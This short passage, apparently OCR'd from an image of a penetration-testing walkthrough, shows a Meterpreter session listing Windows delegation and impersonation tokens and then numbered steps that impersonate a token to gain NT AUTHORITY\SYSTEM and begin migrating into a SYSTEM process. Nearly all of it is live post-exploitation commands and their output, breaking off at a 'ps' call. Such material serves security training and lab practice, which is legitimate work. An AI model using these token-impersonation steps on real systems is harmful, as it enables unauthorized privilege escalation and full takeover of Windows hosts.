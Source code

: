 NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\netprofm
NT SERVICE\nsi
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\W32Time
NT SERVICE\WdiServiceHost
NT SERVICE\WinHttpAutoProxySvc
NT SERVICE\wscsvc
#4 impersonate the token
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
#5 migrate to any process which has the NT AUTHORITY\SYSTEM user
meterpreter > getpid
Current pid: 2948
meterpreter > ps
